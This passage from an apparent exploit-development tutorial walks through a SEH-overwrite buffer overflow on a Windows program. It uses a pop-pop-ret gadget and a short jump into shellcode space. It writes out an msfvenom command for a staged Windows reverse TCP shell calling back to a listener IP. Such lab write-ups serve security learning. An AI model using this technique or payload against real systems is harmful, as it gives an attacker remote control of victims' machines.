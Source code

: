 



Checking **Immunity** after execution displays that **SEH Handler** is now overwritten with the memory address of our `pop pop ret` gadget aka ***1001ab99***




<p align = "center">
<img src = "https://i.imgur.com/UfjG7qp.png">
</p>







And if we not pass the exception to the program with **Shift+F9** we will `pop pop ret` and the value of **nSEH** will be placed in the **EIP Register** ready for execution. **Bingo!**



In this case ***053A6FAC*** is the address of **nSEH** on the stack, so whatever we place in this location will be executed. As show in the below screenshot.






<p align = "center">
<img src = "https://i.imgur.com/taF7iSJ.png">
</p>







### Generating Shellcode



Now unlike VulnServer where we had very limited space to work with **AFTER** the buffer - **52 Bytes** to be precise in our case here we have a lot of room after our **nSEH** & **SEH** values, **931 Bytes** to be precise. 



Now providing we encode our shell code a little bit we should be able to just put our shellcode here and jump straight into this with a little `Short JMP` in our **nSEH** pointer. 



But, first let's generate some shellcode using trusty **MSFVenom** 



```bash
m0chan@kali:/> msfvenom -p windows/shell/reverse_tcp LHOST=172.16.10.171 LPORT=443 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x0d\x0a\x0c"
```



You may noticed I have went for a staged payload this time in comparison to a stageless just to help lower the payload size a little more.
